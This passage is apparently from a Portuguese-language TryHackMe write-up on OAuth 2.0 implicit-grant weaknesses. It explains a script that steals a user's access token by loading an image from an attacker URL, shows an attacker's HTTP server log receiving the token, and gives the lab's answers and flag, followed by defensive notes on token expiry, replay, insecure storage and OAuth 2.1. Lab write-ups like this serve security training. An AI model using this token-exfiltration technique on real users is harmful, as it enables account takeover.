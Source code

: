 - Extrai o valor do `access_token` do objeto `result`, armazenando-o na variável `accessToken`.
    
- Cria uma nova imagem (`new Image()`).
    
- Define o `src` da imagem como uma URL contendo o token de acesso.
    

O token de acesso do usuário é enviado para o atacante através da imagem, e assim o atacante obtém acesso ao recurso protegido.

```shell-session
root@ip-10-10-162-175:~# python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.9.2.217 - - [27/Aug/2024 19:30:10] code 404, message File not found
10.9.2.217 - - [27/Aug/2024 19:30:10] "GET /steal_token?token=2aauviER3lUOev8wNmXQ9B4GNUoadE HTTP/1.1" 404 -
```

**What symbol separates the access token from the OAuth 2.0 implicit grant flow URL?**  
Resposta:`#`

**Visit the URL `http://coffee.thm:8080/flagvalidator/` and enter the access token you acquired. What is the flag value?**  
Resposta:`THM{TOKEN_HACKED}`

### Outras Vulnerabilidades e Evolução do OAuth 2.1

Os invasores podem explorar várias outras fraquezas críticas nas implementações do OAuth 2.0. A seguir estão algumas vulnerabilidades adicionais.

### Expiração de Token Insuficiente

Tokens de acesso com vidas longas ou infinitas representam um risco de segurança significativo. Se um invasor obtiver tal token, ele poderá acessar recursos protegidos indefinidamente.

### Ataques de Repetição

Ataques de repetição envolvem capturar tokens válidos e reutilizá-los para obter acesso não autorizado. Os invasores podem explorar tokens várias vezes sem mecanismos para detectar e impedir a reutilização de tokens.

### Armazenamento Inseguro de Tokens

Armazenar tokens de acesso e tokens de atualização de forma insegura (por exemplo, em armazenamento local ou arquivos não criptografados) pode levar ao roubo de tokens e acesso não autorizado. Usar mecanismos de armazenamento seguros, como cookies seguros ou bancos de dados criptografados, pode proteger os tokens de serem acessados ​​por agentes maliciosos.

### Evolução do OAuth 2.1

OAuth 2.1 representa a mais recente iteração na evolução do padrão OAuth, construído sobre a fundação do OAuth 2.0 para abordar suas deficiências e aumentar a segurança. A jornada do OAuth 2.0 para o OAuth 2.1 foi impulsionada pela necessidade de mitigar vulnerabilidades conhecidas e incorporar as melhores práticas que surgiram desde que a especificação original foi publicada. OAuth 2.0, embora amplamente adotado, tinha várias áreas que exigiam melhorias, particularmente em termos de segurança e interoperabilidade.
